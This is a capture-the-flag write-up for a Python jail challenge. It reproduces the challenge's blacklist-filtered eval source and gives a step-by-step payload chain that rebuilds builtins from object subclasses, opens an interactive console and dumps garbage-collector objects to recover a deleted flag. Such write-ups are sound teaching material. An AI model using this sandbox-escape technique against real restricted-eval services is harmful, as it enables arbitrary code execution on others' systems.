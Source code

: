 ```yaml
---
title: Srdnlen CTF 2025 - Another Impossible Escape
date: '2025-01-19'
lastmod: '2025-01-20T22:03:00+02:00'
categories:
- writeup
- srdnlen25
tags:
- misc
- pyjail
authors:
- salvatore.abello
---
```


# Another Impossible Escape
## Challenge

```py
#!/usr/bin/env python3
import sys
import re

BANNER = r"""
############################################################
#       _                _   _                             #
#      / \   _ __   ___ | |_| |__   ___ _ __               #
#     / _ \ | '_ \ / _ \| __| '_ \ / _ \ '__|              #
#    / ___ \| | | | (_) | |_| | | |  __/ |                 #
#   /_/   \_\_| |_|\___/ \__|_| |_|\___|_|                 #
#      ___                               _ _     _         #
#     |_ _|_ __ ___  _ __   ___  ___ ___(_) |__ | | ___    #
#      | || '_ ` _ \| '_ \ / _ \/ __/ __| | '_ \| |/ _ \   #
#      | || | | | | | |_) | (_) \__ \__ \ | |_) | |  __/   #
#     |___|_| |_| |_| .__/ \___/|___/___/_|_.__/|_|\___|   #
#    _____          |_|                                    #
#   | ____|___  ___ __ _ _ __   ___                        #
#   |  _| / __|/ __/ _` | '_ \ / _ \                       #
#   | |___\__ \ (_| (_| | |_) |  __/   (Author: @uNickz)   #
#   |_____|___/\___\__,_| .__/ \___|                       #
#                       |_|                                #
#                                                          #
############################################################
""" 

FLAG = "srdnlen{fake_flag}"
del FLAG

class IE:
    def __init__(self) -> None:
        print(BANNER)
        print("Welcome to another Impossible Escape!")
        print("This time in a limited edition! More information here:", sys.version)

        self.try_escape()
        return

    def code_sanitizer(self, dirty_code: str) -> str:
        if len(dirty_code) > 60:
            print("Code is too long. Exiting.")
            exit()

        if not dirty_code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_letters = ["m", "w", "f", "q", "y", "h", "p", "v", "z", "r", "x", "k"]
        banned_symbols = [" ", "@", "`", "'", "-", "+", "\\", '"', "*"]
        banned_words = ["input", "self", "os", "try_escape", "eval", "breakpoint", "flag", "system", "sys", "escape_plan", "exec"]

        if any(map(lambda c: c in dirty_code, banned_letters + banned_symbols + banned_words)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        limited_items = {
            ".": 1,
            "=": 1,
            "(": 1,
            "_": 4,
        }

        for item, limit in limited_items.items():
            if dirty_code.count(item) > limit:
                print("You are trying to break the limits. Exiting.")
                exit()

        cool_code = dirty_code.replace("\\t", "\t").replace("\\n", "\n")
        return cool_code

    def escape_plan(self, gadgets: dict = {}) -> None:
        self.code = self.code_sanitizer(input("Submit your BEST Escape Plan: ").lower())
        return eval(self.code, {"__builtins__": {}}, gadgets)

    def try_escape(self) -> None:
        tries = max(1, min(7, int(input("How many tries do you need to escape? "))))

        for _ in range(tries):
            self.escape_plan()

        return

if __name__ == "__main__":
    with open(__file__, "r") as file_read:
        file_data = re.sub(r"srdnlen{.+}", "srdnlen{REDATTO}", file_read.read(), 1)

    with open(__file__, "w") as file_write:
        file_write.write(file_data)

    IE()
```

## Solve

This challenge is a pyjail with the following limitations:
 - We can't use the following characters: 
 ```
 mwfqyhpvzrxk @`\'-+\"*
 ```
 - We can't use the following words:
 `input, self, os, try_escape, eval, breakpoint, flag, system, sys, escape_plan, exec`
 - We can only use ASCII characters
 - Builtins are removed
 - Also, some characters have a limited usage
    - We can only use `)` once
    - We can only use `.` once
    - We can only use `=` once
    - We can only use `_` four times

A few important things:
 - We can execute a maximum of 7 payloads, with a limit of 60 characters each.
 - The variables defined by us will persist between every payload execution.
 - The flag is in a variable called `FLAG`, which is deleted before executing our payloads and the string will be replaced with `srdnlen{REDATTO}`

Since we can't use certain characters, [this script](LINK HERE!!!!!!!!!!!!!!!!!!!) created two years ago by me, could come in handy.

My idea consists in grabbing `eval` and `input` so I can execute arbitrary code. Since there's a character blacklist I had to build the payload while minding the constraints:

```py
(builtins:={}.__class__.__subclasses__()[2].total.__builtins__,lst:=[].__class__(builtins),input:=builtins[lst[28]],eval:=builtins[lst[20]],eval(input(),builtins))
# Inside eval: __import__("code").interact()
```

Now that we have an interactive console, we can restore the flag by dumping all the objects tracked by the python garbage collector:

```py
__import__("gc").get_objects()
```

### Final exploit

```py
[a:={}.__class__]
[b:=a.__subclasses__]
[b:=b()[2].total]
[b:=b.__builtins__]
[a:=[].__class__(b)]
[c:=[b[a[20]],b[a[28]]()]]
__import__("code").interact()
[d:=c[0](c[1],b)]

__import__("gc").get_objects()
```
